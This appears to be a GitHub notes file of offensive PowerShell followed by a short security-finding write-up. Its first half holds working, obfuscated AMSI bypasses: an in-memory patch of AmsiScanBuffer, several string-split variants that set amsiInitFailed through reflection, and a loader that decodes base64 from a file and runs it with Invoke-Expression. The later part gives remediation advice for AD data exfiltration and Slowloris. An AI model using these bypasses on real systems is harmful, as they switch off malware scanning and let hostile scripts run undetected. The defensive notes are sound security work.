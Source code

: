 # AMSI-Bypass
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
	[DllImport("kernel32")]
 	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
  	[DllImport("kernel32")]
   	public static extern IntPtr LoadLibrary(string name);
    	[DllImport("kernel32")]
     	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect); 
} 

"@ 

Add-Type $ZQCUW 

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))") 
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))") 
$p = 0 
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p) 
$TLML = "0xB8" 
$PURX = "0x57" 
$YNWL = "0x00" 
$RTGX = "0x07" 
$XVON = "0x80" 
$WRUD = "0xC3" 
$KTMJX = [Byte[]] ($TLML, $PURX, $YNWL, $RTGX, + $XVON, + $WRUD) 
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)

==========================================================================
NEW AMSI:
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));
(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})


S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})

=============================================================

! Define the path to the text file containing the Base64-encoded PowerShell commands

$encodedFilePath = "path\to\your\encodedfile.txt"

! Read the Base64-encoded content from the text file

$encodedContent = Get-Content -Path $encodedFilePath

! Decode the Base64-encoded content

$decodedBytes = [System.Convert]::FromBase64String($encodedContent)

$decodedContent = [System.Text.Encoding]::UTF8.GetString($decodedBytes)

! Execute the decoded PowerShell commands

Invoke-Expression $decodedContent


=============================================================

https://github.com/ELMERIKH/Needle/tree/main
https://docs.netapp.com/us-en/ontap-cli-97/application-provisioning-config-modify.html#description

Data Exfiltration via Malicious Scripts

Description: Data exfiltration occurs when malicious scripts, such as PowerUp and PowerView, are used to scan and extract data from an Active Directory (AD) environment. These scripts can enumerate users, groups, permissions, and other sensitive information, which attackers can then exfiltrate.

Impact: Unauthorized access to and exfiltration of AD data can lead to significant data breaches, exposing sensitive organizational information, compromising system integrity, and facilitating further attacks. This can result in severe financial losses, reputational damage, legal penalties, and loss of customer trust.

Remediation: Implement robust monitoring and alerting for unusual script activities and data access patterns. Use endpoint protection and detection systems to block and alert on the execution of known malicious scripts. Regularly audit and restrict administrative privileges. Educate employees about the risks of malicious scripts and enforce strict execution policies.

Implement script whitelisting with AppLocker or Windows Defender Application Control to ensure only trusted and signed scripts are executed, monitor encoding/decoding activities, and use EDR solutions to detect and block suspicious script execution. Restrict PowerShell usage with Constrained Language Mode and enable logging. Segment networks to limit lateral movement and regularly train employees to recognize and report suspicious activities.

To mitigate Slowloris attacks, configure your web server to limit the number of connections from a single IP address, set shorter timeouts for incomplete connections, use reverse proxies, and employ web application firewalls (WAF) to detect and block malicious traffic. Implementing rate limiting and connection throttling can also help mitigate this type of attack.

Implement connection limits, shorter timeouts, reverse proxies, WAF, rate limiting, and connection throttling to mitigate Slowloris attacks.

https://www.fortinet.com/resources/cyberglossary/data-exfiltration
https://www.forcepoint.com/blog/insights/data-exfiltration-prevention-phi-pii
https://www.sans.org/webcasts/detect-prevent-data-exfiltration-unique-approach-infoblox-104985/
